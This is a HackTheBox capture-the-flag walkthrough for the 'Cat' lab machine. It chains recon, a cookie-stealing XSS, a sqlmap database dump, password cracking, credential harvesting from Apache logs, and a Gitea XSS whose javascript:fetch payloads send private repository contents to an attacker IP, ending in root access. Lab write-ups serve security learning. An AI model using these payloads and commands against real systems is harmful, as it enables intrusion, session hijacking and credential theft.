






# Cat HackTheBox WalkThrough


We will start the machine by scanning all TCP ports.

```
nmap -p- -sS -n -Pn --min-rate 5000 10.129.231.253

Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

Let's check which services are running on the ports reported by nmap (`22` and `80`).

```
nmap -sVC -p 22,80 10.129.231.253

PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.2p1 Ubuntu 4ubuntu0.11 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   3072 96:2d:f5:c6:f6:9f:59:60:e5:65:85:ab:49:e4:76:14 (RSA)
|   256 9e:c4:a4:40:e9:da:cc:62:d1:d6:5a:2f:9e:7b:d4:aa (ECDSA)
|_  256 6e:22:2a:6a:6d:eb:de:19:b7:16:97:c2:7e:89:29:d5 (ED25519)
80/tcp open  http    Apache httpd 2.4.41 ((Ubuntu))
|_http-title: Did not follow redirect to http://cat.htb/
|_http-server-header: Apache/2.4.41 (Ubuntu)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```

Since there is an `http` service on port `80`, let's analyze which technologies it is using.

```
whatweb 10.129.231.253

http://10.129.231.253 [301 Moved Permanently] Apache[2.4.41], Country[RESERVED][ZZ], HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.231.253], RedirectLocation[http://cat.htb/], Title[301 Moved Permanently]
ERROR Opening: http://cat.htb/ - no address for cat.htb
```

It tries to redirect us to `http://cat.htb`, which results in an error since our machine does not know which address to resolve that name to. To fix this, we will add the line `<victim-ip> cat.htb` to the `/etc/hosts` file.

```
echo "10.129.231.253 cat.htb" >> /etc/hosts
```

It should now resolve properly and not return an error.

```
whatweb cat.htb

http://cat.htb [200 OK] Apache[2.4.41], Cookies[PHPSESSID], Country[RESERVED][ZZ], HTML5, HTTPServer[Ubuntu Linux][Apache/2.4.41 (Ubuntu)], IP[10.129.231.253], Title[Best Cat Competition]
```

After a basic reconnaissance, let's navigate to the website in search of vulnerabilities.



There is a login page, so let's register and log in to access user-restricted content.



In the `contest` tab, when submitting a cat, we receive a message saying that it will be reviewed.


This means that someone will be viewing our input. If the input is not properly sanitized and gets displayed in a browser, we might be able to inject JavaScript code, leading to an `XSS` vulnerability.

After unsuccessfully attempting to inject an `XSS` payload into various `contest` fields, we can try injecting it through the login form, as the administrator might also see our username or email.

The payload we will use is the following:

```

```

---

**What does this payload do?**

*When the website administrator receives our data, this payload will travel as the username.*

*If it is not properly sanitized, instead of displaying `` as plain text, the browser might interpret it as `HTML` and attempt to load an image located at '#'. However, since '#' is not a valid path and there is no image file with that name, an error will occur, triggering the `onerror` event, which will set the image location to our machine’s address, with the session cookies as the path.*

*This way, the browser will make a request to our address, "sending" us the administrator's session cookie.*

---

We register and log in with the payload as `username`.




Before submitting the cat, we set up a listener on port `80` with `netcat` to capture the request containing the cookie.

```
nc -lnvp 80
```



After submitting the cat, we receive the request containing the cookie: `PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr`.

```
GET /PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr HTTP/1.1
Host: 10.10.14.191
User-Agent: Mozilla/5.0 (X11; Ubuntu; Linux x86_64; rv:134.0) Gecko/20100101 Firefox/134.0
Accept: image/avif,image/webp,image/png,image/svg+xml,image/*;q=0.8,*/*;q=0.5
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Connection: keep-alive
Referer: http://cat.htb/
Priority: u=5, i
```

By injecting this session cookie into our browser and refreshing the page, we gain access to a new `admin` tab.



Inside the `admin` panel, there is a list of registered cats with options to accept or reject them. We intercept the accept request using `Burp Suite`.


It is a `POST` request with the fields `catName` and `catId`. It is likely updating or inserting data into a database, so we can try an SQL injection using `sqlmap`.

To list the database tables:

```
sqlmap -u "http://cat.htb/accept_cat.php" --cookie 'PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr' --data 'catName=a&catId=1' --tables --random-agent --level 5 --risk 3 --threads 10
```

To dump all data from the `users` table:

```
sqlmap -u "http://cat.htb/accept_cat.php" --cookie 'PHPSESSID=5mqnpm2rc8q4aj5885fdrbs1vr' --data 'catName=a&catId=1' -T users --dump --random-agent --level 5 --risk 3 --threads 10
```

```
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
| user_id | email                         | password                         | username                                                                  |
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
| 1       | axel2017@gmail.com            | d1bbba3670feb9435c9841e46e60ee2f | axel                                                                      |
| 2       | rosamendoza485@gmail.com      | ac369922d560f17d6eeb8b2c7dec498c | rosa                                                                      |
| 3       | robertcervantes2000@gmail.com | 42846631708f69c00ec0c0a8aa4a92ad | robert                                                                    |
| 4       | fabiancarachure2323@gmail.com | 39e153e825c4a3d314a0dc7f7475ddbe | fabian                                                                    |
| 5       | jerrysonC343@gmail.com        | 781593e060f8d065cd7281c5ec5b4b86 | jerryson                                                                  |
| 6       | larryP5656@gmail.com          | 1b6dce240bbfbc0905a664ad199e18f8 | larry                                                                     |
| 7       | royer.royer2323@gmail.com     | c598f6b844a36fa7836fba0835f1f6   | royer                                                                     |
| 8       | peterCC456@gmail.com          | e41ccefa439fc454f7eadbf1f139ed8a | peter                                                                     |
| 9       | angel234g@gmail.com           | 24a8ec003ac2e1b3c5953a6f95f8f565 | angel                                                                     |
| 10      | jobert2020@gmail.com          | 88e4dceccd48820cf77b5cf6c08698ad | jobert                                                                    |
| 11      | test@test.com                 | 098f6bcd4621d373cade4e832627b4f6 |  |
+---------+-------------------------------+----------------------------------+---------------------------------------------------------------------------+
```

Now, let's attempt to crack some of the hashes we obtained.


The hash for user `rosa` appears in the [crackstation](https://crackstation.net/) database. Let's try to log into the victim machine via `SSH` using these credentials.

```
ssh rosa@cat.htb
rosa@cat.htb's password: soyunaprincesarosa
```

We successfully authenticated as `rosa`. To escalate privileges, we will use the [linpeas](https://github.com/peass-ng/PEASS-ng/releases/tag/20250301-c97fb02a) tool.

We will upload it to the machine by hosting an `HTTP` server using Python.

```
python3 -m http.server 80
```

From the victim machine:

```
wget http://10.10.14.191/linpeas.sh
chmod +x linpeas.sh
```

Among the results, one section stands out as particularly interesting since it shows that we can read Apache logs, which may expose login credentials or other sensitive data sent by users.

```
╔══════════╣ Readable files belonging to root and readable by me but not world readable
```

```
/var/log/apache2/access.log
```

Inside the file, we find the following line:

```
"GET /join.php?loginUsername=axel&loginPassword=aNdZwgC4tI9gnVXv_e3Q&loginForm=Login HTTP/1.1"
```

We will attempt to authenticate using these new credentials:

```
su axel
Password: aNdZwgC4tI9gnVXv_e3Q
```

Now we can read the `user` flag:

```
cd
cat user.txt
```

To continue escalating privileges, let's list internal network services using `netstat`.

```
netstat -l

tcp        0      0 localhost:3000          0.0.0.0:*               LISTEN
```

There is a service running on port `3000`, so let's check what it is by sending any string using `netcat`.

```
echo "test" | nc localhost 3000

HTTP/1.1 400 Bad Request
Content-Type: text/plain; charset=utf-8
Connection: close

400 Bad Request
```

It appears to be an `HTTP` server. To analyze it more conveniently, we will create an SSH tunnel so that all traffic passing through our local port `3000` is forwarded to the victim's port `3000`, and vice versa.

```
ssh rosa@cat.htb -L 3000:localhost:3000
```

Upon accessing the site through our browser, we realize that it is `Gitea`, an open-source Git repository management service.


At the bottom left of the page, we can see the version.


Searching online for security vulnerabilities in this version, we find [this exploit](https://www.exploit-db.com/exploits/52077).

Once again, it is an `XSS` vulnerability, which occurs in the description field.

To exploit this, we need to be authenticated. Let's try using `axel`'s credentials.


Now, let's set up a listener on port `80` using `netcat` to receive requests triggered by the XSS.

```
nc -lnvp 80
```

We then send a payload that, when clicked, will fetch the `/administrator` page's content and send it to our machine. This way, we can view the `Administrator` user's repositories (if they click the description).

The payload to enter in the description field is:

```html
<a href="javascript:fetch('http://localhost:3000/administrator').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

We create the repository.



And send the link via email to the administrator:

```
echo "http://localhost:3000/axel/xss" | sendmail administrator@cat.htb

/home/axel/dead.letter... Saved message in /home/axel/dead.letter
```

Since sending it to `administrator@cat.htb` results in an error, we send it to an existing local user.

```
echo "http://localhost:3000/axel/xss" | sendmail jobert@cat.htb
```

After waiting a moment, we receive the request containing the `/administrator` page content.

We decode the response:

```
node

> const body = '<encoded-body>'
> console.log(decodeURIComponent(body))
```

This reveals the `Administrator` user's repositories. The only repository listed is `Employee-management`.

```html
<!DOCTYPE html>
<html lang="en-US" data-theme="gitea-auto">
<head>
    ...
</head>
<body hx-headers='{"x-csrf-token": "3al9Kr21OmCbGJiIh3zBYEsUqMc6MTc0MjQzMTQ4NDc4MTIxODQ2Ng"}' hx-swap="outerHTML" hx-ext="morph" hx-push-url="false">
    ...
    <a class="text primary name" href="/administrator/Employee-management">Employee-management</a>
    <span class="label-list">
        <span class="ui basic label">Private</span>
    </span>
    ...
	<footer class="page-footer" role="group" aria-label="Footer">
        ...
    </footer>
    ...
</body>
</html>
```

Now, let's list the files inside the `Employee-management` repository.

We set up a listener again:

```
nc -lnvp 80
```

Then, we modify the repository description to include the `/administrator/Employee-management` path:

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

We resend the email to `jobert@cat.htb`.

Once we receive the response, we repeat the decoding process:

```
node

> const body = '<encoded-body>'
> console.log(decodeURIComponent(body))
```

```html
<!DOCTYPE html>
<html lang="en-US" data-theme="gitea-auto">
<head>
    ...
</head>
<body>
    ...
	<table id="repo-files-table" class="ui single line table tw-mt-0" >
	    <tbody>
			<tr data-entryname="chart.min.js" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/chart.min.js" title="chart.min.js">chart.min.js</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="dashboard.php" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/dashboard.php" title="dashboard.php">dashboard.php</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="index.php" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/index.php" title="index.php">index.php</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="logout.php" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/logout.php" title="logout.php">logout.php</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="README.md" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/README.md" title="README.md">README.md</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/7fa272fd5c07320c932584e150717b4829a0d0b3" class="default-link muted">Add README.md</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T04:04:08Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 04:04:08 +00:00</relative-time></td>
			</tr>
			<tr data-entryname="style.css" data-ready="true" class="ready entry">
				<td class="name four wide">
					<span class="truncate">
                        <svg viewBox="0 0 16 16" class="svg octicon-file" aria-hidden="true" width="16" height="16"><path d="M2 1.75C2 .784 2.784 0 3.75 0h6.586c.464 0 .909.184 1.237.513l2.914 2.914c.329.328.513.773.513 1.237v9.586A1.75 1.75 0 0 1 13.25 16h-9.5A1.75 1.75 0 0 1 2 14.25Zm1.75-.25a.25.25 0 0 0-.25.25v12.5c0 .138.112.25.25.25h9.5a.25.25 0 0 0 .25-.25V6h-2.75A1.75 1.75 0 0 1 9 4.25V1.5Zm6.75.062V4.25c0 .138.112.25.25.25h2.688l-.011-.013-2.914-2.914z"/></svg>
                        <a class="muted" href="/administrator/Employee-management/src/branch/main/style.css" title="style.css">style.css</a>
					</span>
				</td>
				<td class="message nine wide">
					<span class="truncate">
                        <a href="/administrator/Employee-management/commit/a8dd0449c9f2702c8600ef686ef5f43dec953ebd" class="default-link muted">Upload files to &#34;/&#34;</a>
					</span>
				</td>
				<td class="text right age three wide"><relative-time prefix="" tense="past" datetime="2024-09-28T01:38:13Z" data-tooltip-content data-tooltip-interactive="true">2024-09-28 01:38:13 +00:00</relative-time></td>
			</tr>
	<footer class="page-footer" role="group" aria-label="Footer">
        ...
    </footer>
	...
</body>
</html>
```

Among the listed files, we find `index.php`, which might contain sensitive data. Instead of navigating through `HTML`, we can retrieve it directly in raw format using the path `/administrator/Employee-management/raw/branch/main/index.php`.

The modified payload will be:

```html
<a href="javascript:fetch('http://localhost:3000/administrator/Employee-management/raw/branch/main/index.php').then(res => res.text().then(text => fetch('http://10.10.14.191/?body=' + encodeURIComponent(text))))">XSS test</a>
```

Repeating the process, we decode the retrieved data:

```php
<?php
$valid_username = 'admin';
$valid_password = 'IKw75eR0MR7CMIxhH0';

if (!isset($_SERVER['PHP_AUTH_USER']) || !isset($_SERVER['PHP_AUTH_PW']) || 
    $_SERVER['PHP_AUTH_USER'] != $valid_username || $_SERVER['PHP_AUTH_PW'] != $valid_password) {
    
    header('WWW-Authenticate: Basic realm="Employee Management"');
    header('HTTP/1.0 401 Unauthorized');
    exit;
}

header('Location: dashboard.php');
exit;
?>
```

Since this contains credentials for `admin`, let's try switching to the `root` user using this password.

```
su root
Password: IKw75eR0MR7CMIxhH0
```

The password is correct, granting us root access. We can now retrieve the `root` flag and complete the `Cat` machine.

```
cd
cat root.txt
```

After finishing the machine, don’t forget to remove the line from `/etc/hosts` corresponding to the machine to avoid accumulating lines with each machine you do.

If you found this useful, consider giving a star to the project. Thank you, and good luck with your future machines ❤️.